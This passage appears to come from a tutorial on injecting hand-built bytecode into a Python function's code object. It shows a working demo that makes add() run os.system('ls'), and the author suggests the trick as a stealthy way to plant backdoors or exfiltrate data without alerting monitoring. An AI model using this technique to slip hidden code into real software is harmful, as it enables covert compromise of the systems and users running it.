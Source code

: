 That was pretty easy, now let's go and construct our injected bytecode and insert it before the function's bytecode
```python
# inj_code = (
#         "\x64",  LOAD_CONST    (0)
#         "\x01",  1
#         "\x64",  LOAD_CONST    (None)
#         "\x00",  0
#         "\x6c",  IMPORT_NAME   (os)
#         "\x00",  0
#         "\x7d",  STORE_FAST    (os)
#         "\x02",  2
#         "\x7c",  LOAD_FAST     (os)
#         "\x02",  2
#         "\xa0",  LOAD_METHOD   (system)
#         "\x01",  1
#         "\x64",  LOAD_CONST    (ls)
#         "\x02",  2
#         "\xa1",  CALL_METHOD
#         "\x01",  1
#         "\x01",  POP_TOP
#         "\x00",  POP_TOP
# )
In [53]: inj_code = b"\x64\x01\x64\x00\x6c\x00\x7d\x02\x7c\x02\xa0\x01\x64\x02\xa1\x01\x01\x00"
In [55]: print(f"inj_code : {bytes(inj_code)}")
In [56]: print(f"add_code : {bytes(add.__code__.co_code)}")
In [57]: print(f"result   : {bytes(inj_code + add.__code__.co_code)}")

inj_code : b'd\x01d\x00l\x00}\x02|\x02\xa0\x01d\x02\xa1\x01\x01\x00'
add_code : b'|\x00|\x01\x14\x00S\x00'
result   : b'd\x01d\x00l\x00}\x02|\x02\xa0\x01d\x02\xa1\x01\x01\x00|\x00|\x01\x14\x00S\x00'
```

All that's left to do is to change the `co_code` attribute and execute the function.
```python
In [57]: add_code = add_code.replace(co_code=inj_code + add_code.co_code)
In [58]: add.__code__ = add_code
In [59]: add(3,4)

disas.py  inject.py  main_func.py  naked.py  notes  __pycache__
Out[59]: 12
```

Victory !! We achieved code execution.

You can imagine how you could use this as a stealthy way to deploy backdoors, exfiltrate data, etc.
The nice thing about this aproach is that your code gets executed by the current running process, without spawning a suspicios subprocess that may raise some alerts. I haven't tested this yet, but I think that this kind of attack
might be more effective if a deserialization vulnerability is in place.

There are some things to note though:

1. This example uses a simple `add()` function. Hence, the interaction with different attributes are minimal *(e.g co_names was empty in our example)*. Since there weren't many interactions with some of the variable tuples, we could easily add our own and change the bytecode to load from those specific indexe's
<br>
2. More complex functions might be harder to inject because you need to set the position of your injected variables in such a way that is compatible with the bytecode already in place. Consequently, it might not be as easy as inserting your injected code at the start, instead you will also need to modify some of the original bytecode instructions accordingly.
<br>
3. Another thing that I noticed during my explorations is that function parameters play a big role in choosing how you position your injected variables.
<br>
4. You need access to the source code of your target
